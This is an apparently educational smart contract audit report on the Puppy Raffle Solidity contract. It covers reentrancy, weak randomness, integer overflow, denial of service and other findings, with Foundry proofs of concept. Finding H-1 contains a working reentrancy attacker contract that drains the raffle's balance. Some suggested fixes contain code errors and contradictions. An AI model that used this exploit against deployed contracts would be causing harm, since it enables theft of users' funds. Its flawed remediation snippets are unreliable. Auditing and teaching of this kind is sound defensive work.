 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width: 100%;
        height: 100vh;
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width: 200px; /* Added px */
        max-height: 200px; /* Added px */
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    body { /* Added to improve readability */
        font-family: sans-serif;
        line-height: 1.6;
        margin: 20px; /* Added margin for better spacing */
    }
    h1, h2, h3 { /* Added to style headings */
        font-weight: 600;
    }
    table { /* Added to style tables */
        width: 100%;
        border-collapse: collapse;
        margin-top: 20px;
    }
    th, td {
        border: 1px solid #ddd;
        padding: 8px;
        text-align: left;
    }
    th {
        background-color: #f2f2f2;
    }
    code { /* Style code blocks */
      font-family: monospace;
      padding: 2px 4px;
      background-color: #f0f0f0;
      border-radius: 4px;
    }

</style>
</head>
<body>

<div class="full-page">
    <img src="./Logo.png" alt="Logo">
    <div>
        <h1>Protocol Audit Report</h1>
        <h3>Prepared by: Royal</h3>
    </div>
</div>

# Tabe of Contents
- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
- [High](#high)
- [Medium](#medium)
- [Low](#low)
- [Informational](#informational)
- [Gas](#gas)

# Protocol Summary

The Puppy Raffle protocol allows users to enter a raffle to win a cute dog NFT. Participants can enter the raffle by calling the `enterRaffle` function with a list of addresses. Duplicate addresses are not allowed, and users can request a refund of their ticket value. The raffle periodically selects a winner, who receives a random puppy NFT, while a fee is sent to a designated address.

# Disclaimer

I made all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed, and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 
## Scope 
The audit covers the `PuppyRaffle.sol` contract located in the `src` directory. The commit hash of the codebase is `e30d199697bbc822b646d76533b66b7d529b8ef5`.

## Roles
- **Owner**: Deployer of the protocol, has the power to change the wallet address to which fees are sent through the `changeFeeAddress` function.
- **Player**: Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.

# Executive Summary
The audit identified several vulnerabilities and issues in the Puppy Raffle protocol, including high-severity issues such as reentrancy attacks, weak randomness, and integer overflow. Medium-severity issues include potential denial of service due to gas limits and unsafe casting. Low-severity issues include incorrect player index handling and missing zero-address checks. Informational issues include the use of outdated Solidity versions and missing events. Gas optimizations were also suggested to improve efficiency.

## Issues found
- **High**: 3 issues
- **Medium**: 3 issues
- **Low**: 1 issue
- **Informational**: 7 issues
- **Gas**: 2 optimizations

# Findings

# High

### [H-1] - The `PuppyRaffle::refund` function can be exploited to drain the contract's balance.

**Description:** The `PuppyRaffle::refund` function can be exploited to drain the contract's balance. It does follow checks-effects-interactions pattern. The `PuppyRaffle::refund` function first transfers the amount to the caller and then updates the balance of the caller. This can be exploited by a malicious user to drain the contract's balance.

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array. This can be a contract address that has a fallback function that can call the `PuppyRaffle::refund` function again. This can result in a reentrancy attack and the contract's balance can be drained.

```solidity

 function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

-       payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);

        emit RaffleRefunded(playerAddress);
    }

```

**Impact:** A malicious user can exploit this vulnerability to drain the contract's balance. This can result in a loss of funds for the contract owner and the users.

**Proof of Concept:**
1. User enter raffle
2. Attacker sets up contract with fallback function that calls `PuppyRaffle::refund` function
3. Attacter enter raffle
4. Attacker calls `PuppyRaffle::refund` function draining the contract's balance

**Proof of Code:**

<details>
<summary> Code </summary>

Place the following into the test file:

```solidity
function test_reentrancyRefund() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);
        
        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackerAddress = makeAddr("attacker");
        vm.deal(attackerAddress, 1 ether);

        uint256 startingAttackerContractBalance = address(attackerContract).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        vm.prank(attackerAddress);
        attackerContract.attack{value: entranceFee}();

        console.log("Attacker Contract Starting Balance: ", startingAttackerContractBalance);
        console.log("Puppy Raffle Starting Balance: ", startingPuppyRaffleBalance);

        console.log("Ending Puppy Raffle Balance: ", address(puppyRaffle).balance);
        console.log("Ending Attacker Contract Balance: ", address(attackerContract).balance);

        assertEq(address(attackerContract).balance, startingPuppyRaffleBalance + entranceFee);

        
    }
    
}

```
And the following into the `ReentrancyAttacker` contract:

```solidity

contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();

    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() public {
       if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive () external payable {
        _stealMoney();
    }
}

```
</details>

**Recommendation Mitigation:** To mitigate this vulnerability, we should have the `PuppyRaffle::refund` function update the `PuppyRaffle::players` array before making the external call to the `msg.sender` address. This will prevent the reentrancy attack and the contract's balance will not be drained.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
+       payable(msg.sender).sendValue(entranceFee);
-       payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }

```

### [H-2] - weak randomness in `PuppyRaffle::sellectWinner` allows users to influences or pridict winner and influence or pridict the raresest puppy

**Description** Hashing `msg.sender`, `block.timestamp`, and `block.difficulty` together create a predictable find number. A predictable number is not good for a random number. malicious user can manipulate these values or know them ahead of time to choose the winner of the raffle themselves.

*Note:* This additionally means user can front-run this function and call the `refund` if the see they are not the winner.

**Impact** Any user can influence the winner of the raffle, winning the money and selecting the `rarest` puppy. Making the entire raffle worthless if it becomes a gas war as to who wins the raffle.

**Proof of Concept** 

1. Validators can known ahead of time the `block.timestamp` and `block.difficulty` and use that to pridict/how to perticipate. See the [Solidity blog on prevrando](https://soliditydeveloper.com/prevrando). `block.difficulty` was recently replaced with prevrando.
2. User can mine or manipulate their `msg.sender` value to result in their address for the generated winner!
3. User can revert their `PuppyRaffle::sellectWinner` if they don`t like the winner or resulting puppy.

Using on-chain values as random seeds is a [well known attack vector](https://betterprogramming.pub/how-to-generate-truly-random-number-in-solidity-and-blockchain-9ced6472dbdf) in the blockchain space.


**Recommendation Mitigation** consider using a cryptographcally provable random number generator like Chainlink VRF or Oraclize. This will ensure that the winner of the raffle is truly random and cannot be influenced by any user. 


### [H-3] - Interger overflow in `PuppyRaffle::total` function can lead to loss of funds.

**Description:** The `PuppyRaffle::total` function can lead to an integer overflow. The `PuppyRaffle::total` function calculates the total amount collected and the total fees collected. If the total amount collected or the total fees collected exceeds the maximum value of a uint64, an integer overflow will occur. This can result in a loss of funds for the contract owner and the users. In solidity version prior to 0.8.0, the overflow will not revert the transaction, and the contract will continue to execute.

```solidity
    uint64 var = type(uint64).max;
    //18446744073709551615
    var = var + 1;
    // var = 0

```
**Impact:** An integer overflow can result in a loss of funds for the contract owner and the users. This can result in the contract owner and the users losing their funds. In the `PuppyRaffle::selectWinner `, `totalFees` are accumulated for the `feeAddress` to collect in the `PuppyRaffle::withdrawFees` function. If the `totalFees` exceed the maximum value of a uint64, an integer overflow will occur and the `totalFees` will be reset to 0. This can result in a loss of funds for the contract owner and the users.

**Proof of Concept:**
1. We first conclude a raffle of 4 players to collect some fees.
2. We then have 89 additional players enter a new raffle, and we conclude that raffle as well.
3. totalFees will be:
```solidity
        totalFees = totalFees + uint64(fee);
        // substituted
        totalFees = 800000000000000000 + 17800000000000000000;
        // due to overflow, the following is now the case
        totalFees = 153255926290448384;

```
4. You will now not be able to withdraw, due to this line in PuppyRaffle::withdrawFees:
```solidity
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```
Although you could use `selfdestruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not what the protocol is intended to do. At some point, there will be to much `balance` in the contract that the above `require` will not be able to pass.

**Proof of Code:**
Place this into the `PuppyRaffleTest.t.sol` file.

<details>
<summary> Code </summary>

```solidity
 function testTotalFeesOverflow() public playersEntered {
        // We finish a raffle of 4 to collect some fees
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
        // startingTotalFees = 800000000000000000

        // We then have 89 players enter a new raffle
        uint256 playersNum = 89;
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * playersNum}(players);
        // We end the raffle
        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        // And here is where the issue occurs
        // We will now have fewer fees even though we just finished a second raffle
        puppyRaffle.selectWinner();

        uint256 endingTotalFees = puppyRaffle.totalFees();
        console.log("ending total fees", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);

        // We are also unable to withdraw any fees because of the require check
        vm.prank(puppyRaffle.feeAddress());
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
```
</details>

**Recommendation Mitigation:** To mitigate this vulnerability, you can consider the following:
1. You can consider using a larger integer type like uint256 to store the total amount collected and the total fees collected. This will prevent an integer overflow and will not result in a loss of funds for the contract owner and the users.

```solidity
    uint256 public totalAmountCollected;
    uint256 public totalFeesCollected;
```
2. You can consider using the SafeMath library to prevent an integer overflow. The SafeMath library will revert the transaction if an integer overflow occurs. This will prevent a loss of funds for the contract owner and the users.

```solidity
    using SafeMath for uint256;

    totalAmountCollected = totalAmountCollected.add(msg.value);
    totalFeesCollected = totalFeesCollected.add(fee);
```
3. Remove the balance check from `PoppyRaffle::withdrawFees` function. This will allow the contract owner to withdraw the fees even if the `totalFees` exceed the contract's balance.

```diff
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
+   require(totalFees > 0, "PuppyRaffle: No fees to withdraw");
```

There are more attack vector with the final `require`, so we recommend  removing it entirely and allowing the contract owner to withdraw the fees at any time.
# Medium

### [M-1] - Looping through the players array to check duplicates in `PuppyRaffle::enterRaffle` function is a potential DENIAL OF SERVICE vulnerability, as the array can grow to a large size and the function will consume more gas than the block gas limit.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the players array to check if the player is already in the array. This can be a potential denial of service vulnerability as the array can grow to a large size and the function will consume more gas than the block gas limit. This can prevent the function from executing successfully.

**Impact:** The function will consume more gas than the block gas limit and will not execute successfully. This can prevent users from entering the raffle. An attacker can exploit this vulnerability to prevent users from entering the raffle. Even if the attacker does not have any malicious intent, the function will consume more gas than the block gas limit and will not execute successfully. 

**Proof of Concept:** If we have to set of 100 players, the gas cost will be such:
- 1st 100 players: ~6252048 gas
- 2nd 100 players: ~18502048 gas 

This is three times the gas cost of the first 100 players. This can be a potential denial of service vulnerability.

<details>
<summary>Code Snippet</summary>

```solidity

function testFunctionCanBeDOS() public {
        address[] memory addresses = new address[](100);  
        for (uint256 i = 0; i < 100; i++) {
           addresses[i] = address(i);
        }
        uint256 gasStart = gasleft();
        // Pass the array to the enterRaffle function
        puppyRaffle.enterRaffle{value: entranceFee* addresses.length }(addresses);

        uint256 gasCost = gasStart - gasleft();
        console.log("Gas cost for 100 playerd", gasCost);

        address[] memory addressesSecond = new address[](100);  
        for (uint256 i = 0; i < 100; i++) {
           addressesSecond[i] = address(i + 100);
        }
        uint256 gasStart2 = gasleft();
        // Pass the array to the enterRaffle function
        puppyRaffle.enterRaffle{value: entranceFee* addressesSecond.length }(addressesSecond);

        uint256 gasCost2 = gasStart2 - gasleft();
        console.log("Gas cost for 100 playerd", gasCost2);

        assert(gasCost2 > gasCost);
        
    }


```
</details>



**Recommendation Mitigation:** To mitigate this vulnerability, you can consider the following:
1. you can consider allowing duplicate entries in the players array. So that the function does not loop through the players array to check for duplicates. which will reduce the gas cost of the function and prevent the denial of service vulnerability. 

```solidity
function enterRaffle() public payable {
    require(msg.value == entranceFee, "Incorrect entrance fee");
    players.push(msg.sender);
}
```
2. you can consider a mapping to store the players' addresses. This will reduce the gas cost of the function and prevent the denial of service vulnerability. 

```solidity
mapping(address => bool) public players;

function enterRaffle() public payable {
    require(msg.value == entranceFee, "Incorrect entrance fee");
    require(!players[msg.sender], "Player already entered the raffle");
    players[msg.sender] = true;
    players.push(msg.sender);
}
```

Alternatively, you could consider [OpenZeppelin's EnumerableSet](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet) to store the players' addresses. This will reduce the gas cost of the function and prevent the denial of service vulnerability. 

### [M-2] Unsafe cast of PuppyRaffle::fee loses fees
**Description:** In PuppyRaffle::selectWinner their is a type cast of a uint256 to a uint64. This is an unsafe cast, and if the uint256 is larger than type(uint64).max, the value will be truncated.

```solidity
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
@>      totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }
```
The max value of a uint64 is 18446744073709551615. In terms of ETH, this is only ~18 ETH. Meaning, if more than 18ETH of fees are collected, the fee casting will truncate the value.

**Impact:** This means the feeAddress will not collect the correct amount of fees, leaving fees permanently stuck in the contract.

**Proof of Concept:**

A raffle proceeds with a little more than 18 ETH worth of fees collected
The line that casts the fee as a uint64 hits
totalFees is incorrectly updated with a lower amount
You can replicate this in foundry's chisel by running the following:

```solidity
    uint256 max = type(uint64).max
    uint256 fee = max + 1
    uint64(fee)
    // prints 0
```
**Recommended Mitigation:** Set PuppyRaffle::totalFees to a uint256 instead of a uint64, and remove the casting. Their is a comment which says:

// We do some storage packing to save gas
But the potential gas saved isn't worth it if we have to recast and this bug exists.

```diff

-   uint64 public totalFees = 0;
+   uint256 public totalFees = 0;
.
.
.
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        uint256 winnerIndex =
            uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
-       totalFees = totalFees + uint64(fee);
+       totalFees = totalFees + fee;

```

### [M-3] - Smart contract wallet raffle winners without a `receive` or `fallback` function will not be able to receive the winnings and will block the start of a new contest.

**Description:** The `PuppyRaffle::selectWinner` function sends the winnings to the winner's address. If the winner's address is a smart contract wallet that does not have a `receive` or `fallback` function, the winnings will not be received. This will block the start of a new contest and the winnings will be stuck in the contract.

User can easily call the `selectWinner` function again and non-wallet entrants could enter, but it could cost a lost due to the duplication check and lottery reset could get very challenging.

**Impact:** The winnings will not be received by the winner and will be stuck in the contract. This will block the start of a new contest and the winnings will be stuck in the contract. This can result in a loss of funds for the contract owner and the users.

Also, the contract owner will not be able to withdraw the fees if the winnings are not received by the winner. This can result in a loss of funds for the contract owner and the users.

**Proof of Concept:**
1. 10 smart contract wallets enter the raffle without a `receive` or `fallback` function
2. The Lottery is concluded.
3. The `PuppyRaffle::selectWinner` function won`t work, even though the lottery is concluded.

**Recommendation Mitigation:** To mitigate this vulnerability, you can consider the following:
1. You can consider checking if the winner's address is a smart contract wallet that does not have a `receive` or `fallback` function. If the winner's address is a smart contract wallet that does not have a `receive` or `fallback` function, you can revert the transaction and prevent the winnings from being sent to the winner. This will prevent the winnings from being stuck in the contract and will allow the contract owner to withdraw the fees.

```solidity
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        require(!isContract(winner), "PuppyRaffle: Winner is a smart contract wallet");
        uint256 fee = totalFees / 10;
        uint256 winnings = address(this).balance - fee;
        totalFees = totalFees + uint64(fee);
        players = new address[](0);
        emit RaffleWinner(winner, winnings);
    }

    function isContract(address _address) private view returns (bool) {
        uint32 size;
        assembly {
            size := extcodesize(_address)
        }
        return size > 0;
    }
```
2. Create a mapping of addressess to payout so winner can pull their winnings.(Recommended)

```solidity
    mapping(address => uint256) public winnings;

    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length > 0, "PuppyRaffle: No players in raffle");

        uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
        address winner = players[winnerIndex];
        winnings[winner] = address(this).balance;
        players = new address[](0);
        emit RaffleWinner(winner, winnings[winner]);
    }

    function withdrawWinnings() external {
        uint256 amount = winnings[msg.sender];
        require(amount > 0, "PuppyRaffle: No winnings to withdraw");
        winnings[msg.sender] = 0;
        payable(msg.sender).transfer(amount);
    }
```
# Low

### [L-1] - The `PuppyRaffle::getActivePlayerIndex ` returns 0 for non-existent players, and for players at index 0. Causing a player in index 0 to be treated as a non-existent player.

**Description:** The `PuppyRaffle::getActivePlayerIndex` function returns 0 for non-existent players, and for players at index 0. This can cause a player in index 0 to be treated as a non-existent player. This can result in unexpected behavior in the contract.

```solidity

    function getActivePlayerIndex(address playerAddress) public view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == playerAddress) {
                return i;
            }
        }
        return 0;
    }
```
**Impact:** A player in index 0 can be treated as a non-existent player. This can result in the player entering the raffle multiple times. This can result in waste of gas.

**Proff of Concept:**
1. Player at index 0 enters the raffle
2. Player at index 0 calls `PuppyRaffle::getActivePlayerIndex` function
3. The function returns 0, treating the player at index 0 as a non-existent player

**Recommendation Mitigation:** The easiest way to fix this issue is to return a value that is not a valid index in the players array. You can return -1 if the player is not found in the players array. This will prevent a player in index 0 from being treated as a non-existent player.

```solidity
    function getActivePlayerIndex(address playerAddress) public view returns (int256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == playerAddress) {
                return int256(i);
            }
        }
        return -1;
        
    }
```
You can also reserve index 0 for a non-existent player. This will prevent a player in index 0 from being treated as a non-existent player, or for the function to revert if the player is not in the array.
# Informational

### [I-1] solidity pragma should be specific, not wide.

**Description:** The pragma statement in the PuppyRaffle contract is too wide. It is recommended to specify the version of Solidity that the contract is written in. This will prevent the contract from being compiled with a different version of Solidity that may introduce vulnerabilities.

- Found in 'PuppyRaffle.sol' file.
  
### [I-2]  Using outdated version of Solidity is not recommended.

solc frquently releases new versions with bug fixes and security patches. It is recommended to use the latest version of Solidity to prevent vulnerabilities.

**Recommendation:** Update the Solidity version to the latest version to prevent vulnerabilities.

### [I-3] - Missing check for zero address

Assigning values to address variables without checking for zero address can lead to unexpected behavior. It is recommended to check for zero address before assigning values to address variables.

- Found in src/PuppyRaffle.sol: 8662:23:35
- Found in src/PuppyRaffle.sol: 3165:24:35
- Found in src/PuppyRaffle.sol: 9809:26:35

### [I-4] - The `PuppyRaffle::sellectWinner` should follow the checks-effects-interactions pattern.

it best to keep code clean and follow the checks-effects-interactions pattern. The `PuppyRaffle::sellectWinner` function should follow the checks-effects-interactions pattern. The function should first check the conditions, then update the state variables, and then interact with other contracts.

```diff
-   (bool success, ) = payable(winner).call{value: address(this).balance}("");
-   require(success, "PuppyRaffle: Failed to send the balance to the winner");
    _safeMint(winner, tokenId);
+  (bool success, ) = payable(winner).call{value: address(this).balance}("");
+  require(success, "PuppyRaffle: Failed to send the balance to the winner");
```

### [I-5]  use of "magic" number is discouraged

it can be confusing to see number literals in a codebase, and it`s much more readable if the numbers are given a name.

Example
```solidity

    uint256 pricepool = (totalAmountCollected * 80) / 100;
    uint256 fees = (totalFeesCollected * 20) / 100;
```
Instead you can use:

```solidity
uint256 public constant PRICE_POOL_PERCENTAGE = 80;
uint256 public constant FEE_PERCENTAGE = 20;
uint256 public constant POOL_PRECISION = 100;
```

### [I-6] - State changes are missing event

Events are a way to notify clients listening to the blockchain that a state change has occurred. It is recommended to emit an event after a state change to notify clients listening to the blockchain.

```diff
+ emit RaffleWinner(winner, winnings);
```

### [I-7] - `PuppyRaffle::_isActivePlayer` function is defined but never used and should be removed.

The `PuppyRaffle::_isActivePlayer` function is defined but never used. It is recommended to remove the unused function to reduce the contract's size and complexity.

```diff 
- function _isActivePlayer(address playerAddress) private view returns (bool) {
-        for (uint256 i = 0; i < players.length; i++) {
-            if (players[i] == playerAddress) {
-                return true;
-            }
-        }
-        return false;
-    }
```
# Gas

### [G-1] - Unchanged State variable should be decleared Constant or Immutable 
Reading from storage is expensive in terms of gas. If a state variable is not going to be changed, it is recommended to declare it as constant or immutable. This will reduce the gas cost of reading from storage.

Instances:
- `PuppyRaffle::raffleDuration` can be declared as `Immutable` 
- `PuppyRaffle::commonImageURI` can be declared as `Constant`
- `PuppyRaffle::rareImageURI` can be declared as `Constant`
- `PuppyRaffle::legendaryImageURI` can be declared as `Constant`

### [G-2] - Storage variable should be cached 
Every time a storage variable is read, it costs gas. It is recommended to cache the storage variable in a local variable to reduce the gas cost of reading from storage.

```diff

+ playerslength = players.length;

-    for (uint256 i = 0; i < players.length - 1; i++) {
+    for (uint256 i = 0; i < playerslength - 1; i++) {
                for (uint256 j = i + 1; j < players.length; j++) {
+               for (uint256 j = i + 1; j < playerslength; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            }

```



